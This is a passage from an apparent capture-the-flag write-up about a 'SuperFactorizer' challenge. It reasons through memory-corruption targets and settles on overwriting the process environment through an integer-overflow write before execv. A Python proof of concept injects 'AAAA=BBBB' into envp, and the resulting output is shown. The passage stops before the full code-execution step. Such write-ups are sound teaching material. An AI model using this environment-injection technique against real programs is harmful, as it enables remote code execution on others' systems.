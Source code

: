 - Saved registers: `rbp` and `rip` could be interesting targets as well

  - But `rip` requires a code address, and the heap is of course not executable
  - `rbp` might be usable to make a stack pivot, as there is 2 consecutive `leave ; ret` , but we end in the same problem, we need leaks to construct  a ROP chain.

- `main stackframe`: no variables are used after the call to `factorize`.

- Environment variables : This sounds way better ! We can write valid pointers, pointing to arbitrary data letting us corrupt the environment variables of the process. And especially it requires **no leaks** !



### Environment corruption to RCE

Targeting environment variables is cool ! But how can it lead to RCE ?

Let's remember the program is executing a binary using `execv`, which transmits the current process' `environ` to the spawned process.

```c
/* Execute PATH with arguments ARGV and environment from `environ'.  */
int execv (const char *path, char *const argv[])
{
  return __execve (path, argv, __environ);
}
```

That means we can inject arbitrary environment variables to `factor.sh`. 

Let's make a simple POC to prove this. We can modify `factor.sh` such that it prints its environment for debugging purposes : 

```shell
strings /proc/self/environ
```

And write at a specific offset, targetting the first entry of `envp` : 

```python
count_overflow = lambda n: ((-n & 0xffffffffffffffff) // 0x8 - 2)
offset = 0x1b0 # &envp[0]
r.sendline(str(count_overflow(offset)).encode())
r.sendline(b'AAAA=BBBB')
r.sendline(b'') # Exit the loop and calls execv
```

Output : 

```
[ SuperFactorizer ]

Size of list> nums[1]: nums[2]: 

PWD=super_factorizer
AAAA=BBBB
SHLVL=1
_=/usr/bin/strings
```
